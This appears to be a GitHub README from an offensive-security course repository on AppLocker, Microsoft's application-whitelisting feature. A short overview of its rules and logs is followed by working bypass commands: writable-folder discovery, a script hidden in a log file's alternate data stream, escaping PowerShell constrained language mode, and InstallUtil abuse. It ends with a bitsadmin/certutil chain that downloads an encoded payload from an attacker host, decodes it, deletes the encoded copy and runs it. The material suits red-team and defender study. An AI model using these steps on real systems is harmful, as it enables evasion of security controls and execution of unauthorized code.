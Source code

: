 ## Application Whitelisting Theory
 Application whitelisting software uses a custom driver to register a callback function through this PsSetCreateProcessNotifyRoutineEx API. The callback is invoked every time a new process is created and detemine whether or not an application is whitelisted. Microsoft has multiple native application whitelisting soultions.  AppLocker was introduced in Win7 and avaiable in Win10.
 
 AppLocker includes kernel-mode driver APPID.SYS and the APPIDSVC user-mode service. APPIDSVC manages the whitelisting ruleset and identifies applications when they are run based on the callback notifications from APPID.SYS.
 
 AppLocker has 3 rule categories:
 - 1.Based on FilePath
 - 2.Based on file hash(SHA256)
 - 3.Based on digital signature

 You can access AppLocker in command prompt -> gpedit.msc(GPO configuration manager)->Local Computer Policy -> Computer
Configuration -> Windows Settings -> Security Settings -> Application Control Policies->AppLocker. There will be 4 rule propertites for 4 separate file types
- 1 .exe executable files
- 2 .msi Windows Installer files
- 3 .powershell , jscript, VB, .cmd and .bat native script files
- 4 Packaged Apps from Microsoft App Store
 
 Group Policy, AppLocker violation can be review in Windows event log. eventvwr->Applications and Services Logs -> Microsoft -> Windows -> AppLocker
 
 ## Basic Bypasses
- 1.Check permission for default rules for AppLocker whitelist all executables and scripts located in C:\Program Files, C:\Program Files (x86), and C:\Windows
- 2.Identify writable floder by a user using [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk). -u supress error, -w writable directories, -s recurese search.
```
C:\users\mst>accesschk.exe "mst" C:\Windows -wus
```
icacls can tell is a folder path is executable 
```
C:\users\mst>icacls.exe C:\Windows\Tasks
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)
```
- 3.The default ruleset doesn’t protect against loading arbitrary DLLs. If we were to create an unmanaged DLL, we would be able to load it and trigger exported APIs to gain
arbitrary code execution.
- 4.Alternate Date Steams is a binary file attribute that contains metadata. We can append binary data if additional streams to the original file. If we can find a file that a current user can write and execute. The below code append test.js to a log file. And we can execute it.
```
C:\Users\mst>type test.js > "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"

C:\Users\mst>wscript "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```
- 5.Third Party Execution. If a third-party scripting engine like Python or Perl is installed, we could use it to very easily bypass application whitelisting.
```
C:\Users\mst>python test.py
```
## Bypass AppLocker with Powershell
Powershell Language Mode: 
- 1.FullLanguage, allows all cmdlets and the entire .NET framework as well as C# code execution.
- 2.RestrictedLanguage, allowing default cmdlets but heavily restricting much else
- 3.NoLanguage disallows all script text

ConstrainedLanguage mode (CLM) with PowerShell version 3.0, allow scripts that are located in whitelisted locations or otherwise comply with a whitelisting rule can execute with full functionality. The most significant limiation excludes calls to the .NET framework, execution of C# code and reflection.

```
PS C:\Users\mst> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```
#### Bypass Constrained language mode(CLM) with custom runsapces
Powershell call **System.Management.Automation.dll** to create runspace. This measns, we can write c# [powershellrunnerSpace.cs](/06ApplicationWhitelistingBypass/powershellrunnerSpace.cs) to creates a custom PowerShell runsapce and executes our script inside it. 

The above bypass the powershell execution, but if the AppBlocker pervent custom c# execution, our TTPs will not work. We can leverage native Windows application **InstallUtil**.
This command allows us to install and uninstall server resources by executing the installer components in a specified assembly. We are going to user uninstall method because install method reuqired admin privileges.

We can write [installer.cs](/06ApplicationWhitelistingBypass/Installer.cs) script and compile to our bypass.exe. Once compiled, we can use native windows commands to transfer our file from attack machine to target machine and exuecte it with InstallUtil command.

First, we can encode our exe on our attack machine, host the encoded file

```
C:\Users\mst>certutil -encode C:\Users\mst\Bypass.exe file.txt
```

Second trafer the file to target, decode and execute, and remove encoded file
```
C:\Users\target>bitsadmin /Transfer myJob http://yourip/file.txt C:\users\target\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\target\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= LogToConsole=false /U C:\users\target\Bypass.exe
```
